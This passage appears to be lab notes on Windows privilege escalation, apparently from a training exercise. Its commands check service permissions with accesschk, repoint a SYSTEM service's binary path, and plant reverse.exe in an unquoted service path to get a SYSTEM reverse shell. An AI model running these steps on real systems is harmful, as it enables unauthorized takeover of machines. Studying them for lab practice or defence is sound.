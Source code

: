 # WPE Techniques

## Service Exploits - Insecure Service Permissions 


1. Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

Note that the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).

2. Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):

```
sc qc daclsvc
```

3. Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:

```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

4. Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```
net start daclsvc
```

## Service Exploits - Unquoted Service Path 

1. Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME) and that the BINARY_PATH_NAME is unquoted and contains spaces.

```
sc qc unquotedsvc
```

2. Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

3. Copy the reverse.exe executable you created to this directory and rename it Common.exe:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

4.Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
